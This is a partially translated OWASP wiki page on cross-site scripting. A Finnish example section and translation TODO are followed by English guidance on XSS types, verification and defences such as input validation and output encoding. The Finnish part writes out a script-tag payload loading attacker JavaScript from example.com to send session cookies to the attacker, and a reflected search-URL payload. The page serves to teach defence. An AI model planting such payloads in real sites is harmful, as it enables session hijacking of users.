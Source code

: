 **Esimerkki** Kaksi yleistä XSS-tyyppiä ovat pysyvä ja heijastuva eli
ei-pysyvä. Näiden erona on se, että pysyvässä XSS-haavoittuvuudessa
komento jää sovelluksen omaan tietokantaan.

Pysyvä: Hyökkääjä muuttaa haavoittuvan yhteisösivuston nimimerkkinsä
siten, että se sisältää komennon. Esim: "luser

<script src="http://example.com/~luser/xss.js">

</script>

". Tiedostossa xss.js oleva komento lähettää sivuston istuntotunnisteen
hyökkääjälle. Hän jättää sivustolle viestin, jolloin hänen nimimerkkinsä
näkyy otsikossa. Viestin lukevan toisen käyttäjän selain suorittaa hänen
tietämättään hyökkääjän komennon, minkä jälkeen hyökkääjällä on
mahdollisuus käyttää sivustoa hänen tunnuksillaan.

Ei-pysyvä: Käyttäjä on kirjautunut haavoittuvaan yhteisösivustoon, jonka
hakukentässä on XSS-haavoittuvuus. Samalla hän saa hyökkääjältä viestin,
joka kehottaa katsomaan annetun linkin, mikä todellisuudessa ohjaakin
osoitteeseen "<http://community.example> piste
com/search?term=qwert\<script....\>". Tällöin hakumoottori ilmoittaa
että hakutulos "qwert" ei tuottanut tuloksia, mutta samalla selain
suorittaa myös hyökkääjän komennon. Haavoittuvuuden toteutumisen
kannalta lopputulos on sama.

**Suositus** Tarkasta kaikki syötekentät ja koodaa niistä erikoismerkit
toiseen muotoon. Tarkasta ja käsittele myös kaikki kentät, jotka
liitetään osaksi vastausviestiä.

TODO: Käännä seuraavat

[Cross-site scripting](Cross-site_Scripting_\(XSS\) "wikilink"), better
known as XSS, is in fact a subset of HTML injection. XSS is the most
prevalent and pernicious web application security issue. XSS flaws occur
whenever an application takes data that originated from a user and sends
it to a web browser without first validating or encoding that content.

XSS allows attackers to execute scripts in the victim’s browser, which
can hijack user sessions, deface web sites, insert hostile content,
conduct phishing attacks, and take over the user’s browser using
scripting malware. The malicious script is usually JavaScript, but any
scripting language supported by the victim’s browser is a potential
target for this attack.

## Environments Affected

All web application frameworks are vulnerable to cross site scripting.

## Vulnerability

There are three known types of cross site scripting: reflected, stored,
and DOM injection. Reflected XSS is the easiest to exploit – a page will
reflect user supplied data directly back to the user:

`echo $_REQUEST['userinput'];`

Stored XSS takes hostile data, stores it in a file, a database, or other
back end system, and then at a later stage, displays the data to the
user, unfiltered. This is extremely dangerous in systems such as CMS,
blogs, or forums, where a large number of users will see input from
other individuals.

With DOM based XSS attacks, the site’s JavaScript code and variables are
manipulated rather than HTML elements.

Alternatively, attacks can be a blend or hybrid of all three types. The
danger with cross site scripting is not the type of attack, but that it
is possible. Non-standard or unexpected browser behaviors can introduce
subtle attack vectors. XSS is also potentially reachable through any
components that the browser uses.

Attacks are usually implemented in JavaScript, which is a powerful
scripting language. Using JavaScript allows attackers to manipulate any
aspect of the rendered page, including adding new elements (such as
adding a login tile which forwards credentials to a hostile site),
manipulating any aspect of the internal DOM tree, and deleting or
changing the way the page looks and feels. JavaScript allows the use of
XmlHttpRequest, which is typically used by sites using AJAX
technologies, even if victim site does not use AJAX today.

Using XmlHttpRequest, it is sometimes possible to get around a browser’s
same source origination policy - thus forwarding victim data to hostile
sites, and to create complex worms and malicious zombies that last as
long as the browser stays open. AJAX attacks do not have to be visible
or require user interaction to perform dangerous [cross site request
forgery (CSRF) attacks](Top_10_2007-A5 "wikilink").

## Verifying Security

The goal is to verify that all the parameters in the application are
validated and/or encoded before being included in HTML pages.

'''Automated approaches: '''Automated penetration testing tools are
capable of detecting reflected XSS via parameter injection, but often
fail to find persistent XSS, particularly if the output of the injected
XSS vector is prevented via authorization checks (such as if a user
inputs hostile data which only admins can see sometime later). Automated
source code scanning tools can find weak or dangerous APIs but usually
cannot determine if validation or encoding has taken place, which may
result in false positives. Neither tool type is able to find DOM based
XSS, which means that Ajax based applications will usually be at risk if
only automated testing takes place.[KSitnick-Stored XSS is called
persistent XSS here; we probably should use the same name consistently,
or at least mention above that they're the same thing (if that's
true)](category:FIXME "wikilink")

'''Manual approaches: '''If a centralized validation and encoding
mechanism is used, the most efficient way to verify security is to check
the code. If a distributed implementation is used, then the verification
will be considerably more time-consuming. Testing is time-consuming
because the attack surface of most applications is so large.

## Protection

The best protection for XSS is a combination of "whitelist" validation
of all incoming data and appropriate encoding of all output data.
Validation allows the detection of attacks, and encoding prevents any
successful script injection from running in the browser.

Preventing XSS across an entire application requires a consistent
architectural approach:

  - **Input validation.** Use a standard input validation mechanism to
    validate all input data for length, type, syntax, and business rules
    before accepting the data to be displayed or stored. Use an "accept
    known good" validation strategy. Reject invalid input rather than
    attempting to sanitize potentially hostile data. Do not forget that
    error messages might also include invalid data.
  - **Strong output encoding.** Ensure that all user-supplied data is
    appropriately entity encoded (either HTML or XML depending on the
    output mechanism) before rendering, taking the approach to encode
    all characters other than a very limited subset. This is the
    approach of the Microsoft Anti-XSS library, and the forthcoming
    OWASP PHP Anti-XSS library. Also, set the character encodings for
    each page you output, which will reduce exposure to some variants.
  - '''Specify the output encoding '''(such as ISO 8859-1 or UTF 8). Do
    not allow the attacker to choose this for your users.
  - **Do not** '''use "blacklist" validation '''to detect XSS in input
    or to encode output. Searching for and replacing just a few
    characters ("\<" "\>" and other similar characters or phrases such
    as “script”) is weak and has been attacked successfully. Even an
    unchecked “<b>” tag is unsafe in some contexts. XSS has a surprising
    number of variants that make it easy to bypass blacklist validation.
  - **Watch out for canonicalization errors.** Inputs must be decoded
    and canonicalized to the application’s current internal
    representation before being validated. Make sure that your
    application does not decode the same input twice. Such errors could
    be used to bypass whitelist schemes by introducing dangerous inputs
    after they have been checked.

Language specific recommendations:

  - **Java: Use Struts output mechanisms such** as \<bean:write … \>, or
    use the default JSTL escapeXML="true" attribute in \<c:out … \>. Do
    NOT use \<%= … %\> unnested (that is, outside of a properly encoded
    output mechanism)
  - '''.NET: Use the Microsoft Anti-XSS Library '''1.5 freely available
    from MSDN. Do not assign form fields data directly from the Request
    object: `username.Text = Request.QueryString("username");` without
    using this library. Understand which .NET controls automatically
    encode output data
  - **PHP: Ensure output is passed through `htmlentities()` or
    `htmlspecialchars()`** or use the soon to be released OWASP PHP
    Anti-XSS library. **Disable register_globals** if it is not already
    disabled

## Samples

  - [<http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2006-4206>](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2006-4206%20)
  - [<http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2005-3966>](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2005-3966%20)
  - [<http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2006-5204>](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2006-5204%20)

## Related Pages

  - [:Category:OWASP Stinger
    Project](:Category:OWASP_Stinger_Project "wikilink")
  - [Testing for Cross site
    scripting](Testing_for_Cross_site_scripting "wikilink")
  - [OWASP PHP Filters](OWASP_PHP_Filters "wikilink")
  - [:Category:OWASP Encoding
    Project](:Category:OWASP_Encoding_Project "wikilink")

## References

  - CWE: CWE-79, Cross-Site scripting (XSS)
  - WASC Threat Classification:
    <http://www.webappsec.org/projects/threat/classes/cross-site_scripting.shtml>
  - OWASP – [Cross-site Scripting
    (XSS)](Cross-site_Scripting_\(XSS\) "wikilink")
  - OWASP – [Testing for Cross site
    scripting](Testing_for_Cross_site_scripting "wikilink")
  - OWASP [Stinger Project](:Category:OWASP_Stinger_Project "wikilink")
    (A Java EE validation filter)
  - OWASP [PHP Filter Project](OWASP_PHP_Filters "wikilink")
  - OWASP [Encoding
    Project](:Category:OWASP_Encoding_Project "wikilink")
  - RSnake, XSS Cheat Sheet, <http://ha.ckers.org/xss.html>
  - Klein, A., DOM Based Cross Site Scripting,
    <http://www.webappsec.org/projects/articles/071105.shtml>
  - .NET Anti-XSS Library -
    <http://www.microsoft.com/downloads/details.aspx?FamilyID=efb9c819-53ff-4f82-bfaf-e11625130c25&DisplayLang=en>